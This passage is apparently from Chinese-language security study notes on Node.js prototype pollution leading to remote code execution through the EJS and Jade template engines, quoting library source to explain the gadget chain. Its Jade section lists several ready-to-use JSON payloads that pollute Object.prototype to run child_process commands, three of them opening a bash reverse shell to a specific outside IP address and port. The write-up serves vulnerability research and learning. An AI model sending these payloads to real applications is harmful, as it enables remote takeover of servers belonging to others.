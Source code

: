 ```javascript
        prepended += '  var ' + opts.outputFunctionName + ' = __append;' + '\n';
      }
```
属性值给了prepended
```javascript
appended += '  return __output;' + '\n';
      this.source = prepended + this.source + appended;
```
给了this.source
```javascript
 ctor = Function;
fn = new ctor(opts.localsName + ', escapeFn, include, rethrow', src);
```
Function对象会创立一个新函数，但同时也会遇到eval()相似的安全问题。<br />具有 call() 和 apply() 方法，可以用于调用函数并指定 this 关键字和参数。
```javascript
return fn.apply(opts.context, [data || {}, escapeFn, include, rethrow]);
```
对象指向了opts.tontext,并将data传了进去,<br />最后通过命令执行调用。
<a name="yGiwE"></a>
# jade
师傅tql<br />[https://xz.aliyun.com/t/7025](https://xz.aliyun.com/t/7025)<br />先贴出链子
```javascript
{"__proto__":{"self":"true","line":"2,jade_debug[0].filename));return global.process.mainModule.require(\'child_process\').exec('bash -c \"bash -i >& /dev/tcp/43.143.192.19/1145 0>&1\"')//"}}

```
```javascript
{"__proto__":{"self":1,"line":"global.process.mainModule.require(\'child_process\').exec(\'calc\')"}}
```
```javascript
{"__proto__":{"__proto__": {"type":"Block","nodes":"","compileDebug":1,"self":1,"line":"global.process.mainModule.require('child_process').exec('calc')"}}}
```
```javascript
{"__proto__":{"compileDebug":1,"self":1,"line":"console.log(global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/43.143.192.19/1145 0>&1\"'))"}}
```
```javascript
{"__proto__":{"__proto__":{"type":"Code","self":1,"line":"global.process.mainModule.require('child_process').execSync('bash -c \"bash -i >& /dev/tcp/43.143.192.19/1145 0>&1\"')"}}}
```
在这覆盖compilDebug的值为true
```javascript
exports.__express = function (path, options, fn) {
  if (options.compileDebug == undefined && process.env.NODE_ENV === 'production') {
    options.compileDebug = false;
  }
  exports.renderFile(path, options, fn);
}
```
开启后，报错过程在编译模式
```javascript
exports.compile = function (str, options) {
  var options = options || {}
    , filename = options.filename
      ? utils.stringify(options.filename)
      : 'undefined'
    , fn;

  str = String(str);

  var parsed = parse(str, options);
```
覆盖self为true，不进入编译报错分支。
```javascript
```
